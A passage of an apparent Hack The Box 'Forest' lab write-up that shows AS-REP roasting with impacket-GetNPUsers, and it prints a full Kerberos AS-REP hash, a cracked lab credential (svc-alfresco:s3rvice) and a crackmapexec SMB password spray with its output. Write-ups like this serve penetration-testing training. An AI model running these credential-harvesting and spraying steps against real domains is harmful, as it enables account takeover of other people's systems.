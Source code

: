 Impacket-GetNPUsers - Impacket's GetNPUsers.py will attempt to harvest the non-preauth AS-REP responses for a given list of usernames. These responses will be encrypted with the user's password, which can then be cracked offline. 
Command:

```
└──╼ [★]$ impacket-GetNPUsers htb.local/ -usersfile users.txt -no-pass -request -dc-ip 10.129.95.210
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:a8437c70b147b76e43fe1dac2a2b9a8f$6cc2785b5502fe857aac3a332a66948fe13b7ca61eb9f574b701629e81c40f33093042e6aa8b477d8e29d32f3ff503c1b5536c1e2d7f2277a15a27eee8c4145761cf6fc6ab82dc2a69a3825f0bb41f57a9683b68fa4a18945c5089a7d6b3e265920e37d69907ab90e863f89819d436d9378bc39ded4a71c89cf8cf8a911a001f310d81ce4a12d97f85126ea13884af0145c8a9c7d445087bf886d083f59bce750c506aba65dbb0f9d6a28901b615b5086db7fda4c1d05075c0b972fdb9036c62dafe2663d2682535d3896275cac7ef538b4e8f52b13fe441910551597016da1a68416a247572
```

subl - is a command-line tool included with Sublime Text that allows you to open files and folders in the editor from the terminal

to use the john should be used dictionary:
rockyou.txt.gz

Command:
```
sudo gunzip rockyou.txt.gz
```

![alt text](image-2.png)

svc-alfresco:s3rvice

Going to crackmapexec:

```
└──╼ [★]$ crackmapexec smb 10.129.95.210  -u users.txt -p passwords.txt   --continue-on-success
SMB         10.129.95.210   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.95.210   445    FOREST           [-] htb.local\Administrator:s3rvice STATUS_LOGON_FAILURE 
SMB         10.129.95.210   445    FOREST           [-] htb.local\sebastien:s3rvice STATUS_LOGON_FAILURE 
SMB         10.129.95.210   445    FOREST           [-] htb.local\lucinda:s3rvice STATUS_LOGON_FAILURE 
SMB         10.129.95.210   445    FOREST           [-] htb.local\andy:s3rvice STATUS_LOGON_FAILURE 
SMB         10.129.95.210   445    FOREST           [-] htb.local\mark:s3rvice STATUS_LOGON_FAILURE 
SMB         10.129.95.210   445    FOREST           [-] htb.local\santi:s3rvice STATUS_LOGON_FAILURE 
SMB         10.129.95.210   445    FOREST           [+] htb.local\svc-alfresco:s3rvice 
```